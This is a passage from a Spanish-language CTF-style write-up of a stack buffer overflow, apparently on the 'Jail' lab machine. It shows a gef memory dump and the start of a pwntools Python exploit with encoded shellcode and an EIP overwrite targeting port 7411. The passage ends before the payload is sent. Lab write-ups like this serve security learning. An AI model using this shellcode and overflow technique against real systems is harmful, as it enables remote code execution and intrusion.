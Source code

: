     - lo miramos en forma hexadecimal
    
        ```bash
        gef➤  x/16wx 0xffffd140
        #Output
        0xffffd140  0x41414141  0x41414141  0x41414141  0x41414141
        0xffffd150  0x41414141  0x41414141  0x41414141  0x42424242
        0xffffd160  0x43434343  0x43434343  0x00000100  0xf7ff4070
        0xffffd170  0x00000001  0xf7ffd590  0x00000000  0x414112db
        ``` 

Aqui vemos que la direccion `0xffffd140` apunta al principio del Buffer (la entrada del usuario). Esto significa
que si el **eip** apunta a la direccion `0xfffd140` sumada por 32 bytes (que serian las 28 A mas los 4 bytes del **eip**),
podriamos ejecutar el shellcode que queremos.


![Jail-Buffer-shellcode-os](/assets/images/Jail-Buffer-shellcode-pos.png) 
Para esto nos creamos un script en python

```python
#!/usr/bin/python3

from pwn import *

context(os='linux', arch='i386')

p = remote("127.0.0.1", 7411)
# p = remote("10.10.10.34", 7411)


buf = b"\xdb\xc8\xd9\x74\x24\xf4\x5e\xbb\xc5\x90\x9f\x66\x33"
buf += b"\xc9\xb1\x12\x83\xee\xfc\x31\x5e\x13\x03\x9b\x83\x7d"
buf += b"\x93\x12\x7f\x76\xbf\x07\x3c\x2a\x2a\xa5\x4b\x2d\x1a"
buf += b"\xcf\x86\x2e\xc8\x56\xa9\x10\x22\xe8\x80\x17\x45\x80"
buf += b"\x18\xe2\xbb\x58\x75\xf0\xc3\x59\x3e\x7d\x22\xe9\x26"
buf += b"\x2e\xf4\x5a\x14\xcd\x7f\xbd\x97\x52\x2d\x55\x46\x7c"
buf += b"\xa1\xcd\xfe\xad\x6a\x6f\x96\x38\x97\x3d\x3b\xb2\xb9"
buf += b"\x71\xb0\x09\xb9"

before_eip = ("A" * 28).encode()
EIP = p32(0xffffd140+32)
```